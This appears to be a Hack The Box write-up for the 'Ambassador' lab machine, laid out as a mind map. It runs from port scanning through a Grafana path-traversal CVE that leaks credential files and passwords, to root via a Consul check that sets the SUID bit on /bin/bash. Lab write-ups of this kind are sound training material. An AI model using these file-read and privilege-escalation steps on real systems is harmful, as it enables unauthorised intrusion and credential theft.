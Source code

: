 ```yaml
---
title: "Hack The Box - Ambassador [Medium]"
date: 2023-08-21T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Markmap</title>
<style>
* {
  margin: 0;
  padding: 0;
}
#mindmap {
  display: block;
  width: 100vw;
  height: 100vh;
}
</style>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@highlightjs/cdn-assets@11.8.0/styles/default.min.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/style.css">
</head>
<body>
<svg id="mindmap"></svg>
<script src="https://cdn.jsdelivr.net/npm/d3@7.8.5/dist/d3.min.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-view@0.15.3/dist/browser/index.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/index.js"></script><script>(r => {
                setTimeout(r);
              })(() => {
  const {
    markmap,
    mm
  } = window;
  const {
    el
  } = markmap.Toolbar.create(mm);
  el.setAttribute('style', 'position:absolute;bottom:20px;right:20px');
  document.body.append(el);
})</script><script>((getMarkmap, getOptions, root, jsonOptions) => {
          const markmap = getMarkmap();
          window.mm = markmap.Markmap.create('svg#mindmap', (getOptions || markmap.deriveOptions)(jsonOptions), root);
        })(() => window.markmap,null,{"type":"heading","depth":0,"payload":{"lines":[0,1]},"content":"Ambassador","children":[{"type":"heading","depth":1,"payload":{"lines":[2,3]},"content":"PORTS","children":[{"type":"heading","depth":2,"payload":{"lines":[4,5]},"content":"TCP","children":[{"type":"list_item","depth":3,"payload":{"lines":[6,7]},"content":"Discovered open port 3306/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[7,8]},"content":"MySQL 8.0.30-0ubuntu0.20.04.2","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[8,9]},"content":"Discovered open port 80/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[9,10]},"content":"Hugo 0.94.2","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[10,11]},"content":"http-title: Ambassador Development Server","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[11,12]},"content":"Discovered open port 22/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[12,13]},"content":"OpenSSH 8.2p1 Ubuntu 4ubuntu0.5","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[13,14]},"content":"Discovered open port 3000/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[14,15]},"content":"HTTP/1.0 302 Found","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[16,17]},"content":"UDP","children":[{"type":"list_item","depth":3,"payload":{"lines":[18,19]},"content":"None","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[20,21]},"content":"HTTP 10.10.11.183:80","children":[{"type":"heading","depth":2,"payload":{"lines":[24,25]},"content":"Content","children":[{"type":"list_item","depth":3,"payload":{"lines":[28,29]},"content":"user: <code>developer</code>","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[31,32]},"content":"HTTP 10.10.11.183:3000","children":[{"type":"heading","depth":2,"payload":{"lines":[35,36]},"content":"Content","children":[{"type":"heading","depth":3,"payload":{"lines":[37,38]},"content":"Unauthorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[38,39]},"content":"Grafana[8.2.0]","children":[]}]},{"type":"heading","depth":3,"payload":{"lines":[40,41]},"content":"Authorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[42,43]},"content":"Data Source - <code>mysql.yml</code>","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[44,45]},"content":"Login","children":[{"type":"heading","depth":3,"payload":{"lines":[46,47]},"content":"<code>admin:messageInABottle685427</code>","children":[]}]},{"type":"heading","depth":2,"payload":{"lines":[48,49]},"content":"CVEs","children":[{"type":"heading","depth":3,"payload":{"lines":[50,51]},"content":"CVE-2021-43798 *","children":[{"type":"fence","depth":4,"content":"<pre><code><span class=\"hljs-symbol\">developer:</span><span class=\"hljs-symbol\">x:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:developer</span><span class=\"hljs-symbol\">:/home/developer</span><span class=\"hljs-symbol\">:/bin/bash</span>\n</code></pre>\n","children":[],"payload":{"lines":[52,55]}},{"type":"bullet_list","depth":4,"payload":{"lines":[56,63]},"content":"","children":[{"type":"list_item","depth":5,"payload":{"lines":[56,57]},"content":"<code>/var/lib/grafana/grafana.db</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[57,58]},"content":"<code>/etc/mysql/mysql.conf.d/mysqld.cnf</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[58,59]},"content":"<code>/etc/grafana/grafana.ini</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[59,60]},"content":"<code>admin_password = messageInABottle685427</code>","children":[]}]},{"type":"list_item","depth":5,"payload":{"lines":[60,61]},"content":"<code>/etc/grafana/provisioning/datasources/mysql.yml</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[61,62]},"content":"<code>grafana:dontStandSoCloseToMe63221!</code>","children":[]}]}]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[63,64]},"content":"DB 3306","children":[{"type":"list_item","depth":2,"payload":{"lines":[67,68]},"content":"<code>use whackywidget; -&gt; select * from users; -&gt; developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[68,69]},"content":"<code>anEnglishManInNewYork027468</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[69,70]},"content":"userFlag","children":[]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[71,72]},"content":"SSH 22","children":[{"type":"list_item","depth":2,"payload":{"lines":[75,76],"index":1},"content":"1. Files on the System","children":[{"type":"list_item","depth":3,"payload":{"lines":[76,77]},"content":"<code>/home/developer/.gitconfig</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[77,78]},"content":"<code>/opt/my-app/</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[78,79]},"content":"<code>/opt/my-app/put-config-in-consul.sh</code>","children":[{"type":"list_item","depth":5,"payload":{"lines":[79,80]},"content":"<code>consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD</code>","children":[]}]}]},{"type":"list_item","depth":3,"payload":{"lines":[80,81]},"content":"<code>/home/developer/.profile</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[81,82]},"content":"<code>/home/developer/.bash_history</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[82,83]},"content":"<code>/root/</code> ?","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[83,84]},"content":"<code>consul</code> *","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[84,85]},"content":"<code>/opt/consul/raft/raft.db</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[85,86]},"content":"<code>/development-machine-documentation/*</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[86,87]},"content":"<code>/development-machine-documentation/deploy.sh</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[87,88]},"content":"<code>/opt/my-app/whackywidget/put-config-in-consul.sh</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[88,89],"index":2},"content":"2. Installed Applications","children":[{"type":"list_item","depth":3,"payload":{"lines":[89,90]},"content":"consul","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[90,91],"index":3},"content":"3. Network","children":[{"type":"list_item","depth":3,"payload":{"lines":[91,92]},"content":"tcp 127.0.0.1:8300","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[92,93]},"content":"tcp 127.0.0.1:8301","children":[{"type":"list_item","depth":4,"payload":{"lines":[93,94]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[94,95]},"content":"tcp 127.0.0.1:8302","children":[{"type":"list_item","depth":4,"payload":{"lines":[95,96]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[96,97]},"content":"tcp 127.0.0.1:8500","children":[{"type":"list_item","depth":4,"payload":{"lines":[97,98]},"content":"Consul UI","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[98,99]},"content":"Content: <code>Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[99,100]},"content":"tcp 127.0.0.1:8600","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[100,101]},"content":"tcp 127.0.0.1:3306","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[101,102],"index":4},"content":"4. Running Processes","children":[{"type":"list_item","depth":3,"payload":{"lines":[102,103]},"content":"<code>/usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[103,104],"index":5},"content":"5. Scheduled Jobs/Tasks","children":[{"type":"list_item","depth":3,"payload":{"lines":[104,105]},"content":"<code>find /etc/consul.d/config.d/* -mmin +10 -delete</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[105,106],"index":6},"content":"6. System","children":[{"type":"list_item","depth":3,"payload":{"lines":[106,107]},"content":"Sudo version 1.8.31","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[107,108]},"content":"PermitRootLogin yes","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[109,110]},"content":"Consul Research","children":[{"type":"list_item","depth":2,"payload":{"lines":[111,112]},"content":"https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[112,113]},"content":"https://developer.hashicorp.com/consul/docs/services/usage/checks","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[113,114]},"content":"https://developer.hashicorp.com/consul/commands/exec","children":[]}]},{"type":"heading","depth":1,"payload":{"lines":[115,116]},"content":"Root","children":[{"type":"list_item","depth":2,"payload":{"lines":[116,117]},"content":"<code>export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[117,118]},"content":"<code>consul catalog nodes</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[118,119]},"content":"<code>ambassador 27361fb5-583a-5db0-27bf-ecfed7b4b669 127.0.0.1 dc1 lan=127.0.0.1, lan_ipv4=127.0.0.1, wan=127.0.0.1, wan_ipv4=127.0.0.1 consul-network-segment=</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[119,120]},"content":"<code>find / -type d -writable 2&gt;/dev/null</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[120,121]},"content":"<code>/etc/consul.d/config.d</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[121,122]},"content":"<code>touch /etc/consul.d/config.d/syl.hcl</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[122,137]},"content":"<pre><code class=\"language-hcl\">service {\n    name = &quot;dummy-service&quot;\n    id   = &quot;dummy-service-1&quot;\n    port = 8080\n\n    check = {\n        id = &quot;mem-util&quot;\n        name = &quot;Memory utilization&quot;\n        args = [&quot;chmod&quot;, &quot;u+s&quot;, &quot;/bin/bash&quot;]\n        interval = &quot;10s&quot;\n        timeout = &quot;1s&quot;\n    }\n}\n</code></pre>\n","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[137,138]},"content":"<code>consul reload</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[138,139]},"content":"<code>/bin/bash -p</code>","children":[]}]}]},{})</script>
</body>
</html>

